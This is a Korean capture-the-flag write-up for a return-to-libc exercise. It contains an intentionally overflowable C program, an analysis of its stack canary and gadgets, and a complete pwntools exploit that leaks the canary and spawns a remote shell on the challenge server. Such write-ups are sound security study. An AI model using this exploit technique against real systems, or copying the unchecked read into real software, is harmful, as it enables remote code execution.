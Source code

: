 ```c
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

```bash
$ checksec rtl
[*] './rtl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 분석

`rtl.c` 코드와 `checksec rtl`의 결과를 볼 때, RTP 기법을 사용해야 함을 알 수 있으며, 이 과정에서 `binsh` 배열을 사용할 수 있으리라는 것을 알 수 있다.

# 취약점

`read` 함수의 사용을 보면, `buf` 배열의 크기인 `0x30`보다 충분히 큰 `0x100`바이트의 입력을 읽고 있으므로, BOF 취약점이 있음을 알 수 있다.

# 공격

위에서 언급한 BOF 취약점을 이용하여 stack canary를 얻어낸 후 return address 이후를 변조하여 쉘을 탈취하면 된다.
이를 위해 gdb, ROPgadget 등의 도구를 활용하여 얻어낸 주요 주소값은 다음과 같다.

* `system@plt` : `0x4005d0`
* `'/bin/sh'` : `0x400874`
* 'pop rdi; ret' 가젯 : `0x400853`
* 'ret' 가젯 : 0x400285
* `buf` : `$rbp-0x40`
* stack canary : `$rbp-0x8`
* return address : `$rbp+0x8`

이때, `system@plt` 함수는 `$rsp`가 `0x10` 단위로 정렬되어 있을 때에만 작동하며, `$rbp` 역시 언제나 `0x10` 단위로 정렬되어 있으므로, 'ret' 가젯이 필요하다.
따라서 다음과 같이 페이로드를 구성하면 쉘을 탈취할 수 있다.

```python
# Name: rtl.py

from pwn import *

context.arch = 'amd64'
context.os = 'linux'
# context.log_level = 'debug'

HOST = 'host3.dreamhack.games'
PORT = 18221 # The given port

# conn = process('./rtl')
conn = remote(HOST, PORT)

conn.sendlineafter(b'Buf: ', b'A' * 0x38)
conn.recvuntil(b'\x0a')
canary = u64(b'\x00' + conn.recv(7))
system_plt = 0x4005d0 # system@plt 주소
binsh = 0x400874 # '/bin/sh' 주소
gadget = dict()
gadget['pop rdi; ret'] = 0x400853 # 'pop rdi; ret' 가젯 주소
gadget['ret'] = 0x400285 # 'ret' 가젯 주소

payload = b'A' * 0x38
payload += p64(canary)
payload += b'A' * 0x8
payload += p64(gadget['ret'])
payload += p64(gadget['pop rdi; ret'])
payload += p64(binsh)
payload += p64(system_plt)

conn.sendlineafter(b'Buf: ', payload)
conn.interactive()
```